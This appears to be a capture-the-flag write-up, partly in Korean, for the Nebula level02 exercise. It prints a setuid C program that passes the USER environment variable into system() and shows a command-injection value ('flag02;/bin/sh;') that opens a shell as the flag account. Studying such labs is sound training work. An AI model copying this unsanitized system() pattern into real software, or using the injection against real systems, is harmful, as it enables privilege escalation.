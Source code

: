 # Level 02

## Plot

### About

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

`asprintf`는 `sprintf`의 변형 버전으로, 1번째 인자로 주어진 포인터에 2번째 인자로 주어지는 문자열을 넣는다. 2번째 인자의 문자열의 포맷에 따라 추가적인 인자가 주어질 수 있다.

## USER 환경변수를 조작하자

간단하게 생각해서 `buffer`에 `USER` 환경변수 값을 넣고 그대로 `system`함수에 넣어 실행하니까 `;`로 `/bin/sh`을 실행 시켜주자.

```text
level02@nebula:/home/flag02$ USER="flag02;/bin/sh;"
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo flag02;/bin/sh; is cool")
flag02
sh-4.2$ whoami
flag02
sh-4.2$ getflag
You have successfully executed getflag on a target account
```
